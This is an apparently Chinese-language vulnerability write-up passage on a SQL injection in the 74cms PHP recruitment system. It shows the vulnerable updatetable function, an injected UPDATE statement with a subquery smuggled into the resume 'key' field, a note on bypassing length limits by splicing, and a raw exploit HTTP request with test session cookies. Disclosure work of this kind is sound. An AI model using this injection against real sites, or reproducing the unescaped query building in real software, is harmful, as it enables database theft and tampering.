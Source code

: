 select * from qs_resume where id='1'  AND uid='1' LIMIT 1
select * from qs_resume_tmp where id='1'  AND uid='1' LIMIT 1
SELECT * FROM qs_resume_education WHERE  pid='1' AND uid='1'
select * from qs_resume_work where pid='1' AND uid=1
select * from qs_resume_training where pid='1' AND  uid='1'

3.update
function updatetable($tablename, $setsqlarr, $wheresqlarr, $silent=0) {
	global $db;
	$setsql = $comma = '';
	foreach ($setsqlarr as $set_key =&gt; $set_value) {
		if(is_array($set_value)) {
			$setsql .= $comma.'`'.$set_key.'`'.'='.$set_value[0];
		} else {
			$setsql .= $comma.'`'.$set_key.'`'.'=\''.$set_value.'\'';
		}
		$comma = ', ';
	}
	$where = $comma = '';
	if(empty($wheresqlarr)) {
		$where = '1';
	} elseif(is_array($wheresqlarr)) {
		foreach ($wheresqlarr as $key =&gt; $value) {
			$where .= $comma.'`'.$key.'`'.'=\''.$value.'\'';
			$comma = ' AND ';
		}
	} else {
		$where = $wheresqlarr;
	}
	return $db-&gt;query("UPDATE ".($tablename)." SET ".$setsql." WHERE ".$where, $silent?"SILENT":""); //从数据库中取得的key没有再次进入数据库形成漏洞
}

UPDATE qs_resume SET `photo`='0', `complete`='1', `complete_percent`='60', `key`='1111111 营销总监 2222220  营销00 总监00 中技00 999',`key`=(select u', `refreshtime`='1389891155' WHERE uid='1' AND id='1'

key在输入的时候，有长度限制，但是可以拼接。
到此为止我们已经可以插入语句了。
request:
s/user/personal/personal_resume.php?act=make4_save HTTP/1.1
Host: localhost
Proxy-Connection: keep-alive
Content-Length: 192
Cache-Control: max-age=0
Origin: http://localhost
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://localhost/74cms/user/personal/personal_resume.php?act=make4&amp;pid=1
Accept-Encoding: gzip,deflate,sdch
Accept-Language: zh-CN,zh;q=0.8
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Cookie: QS[uid]=1; QS[username]=111111; QS[password]=9b992eee6312919356a40415f283f5ee; QS[utype]=2; QS[pmscount]=1; CNZZDATA5243664=cnzz_eid%3D2105242747-1389515449-%26ntime%3D1389534482%26cnzz_a%3D8%26ltime%3D1389515448225; PHPSESSID=7ck165pg0jv7vod6kod932fjj2
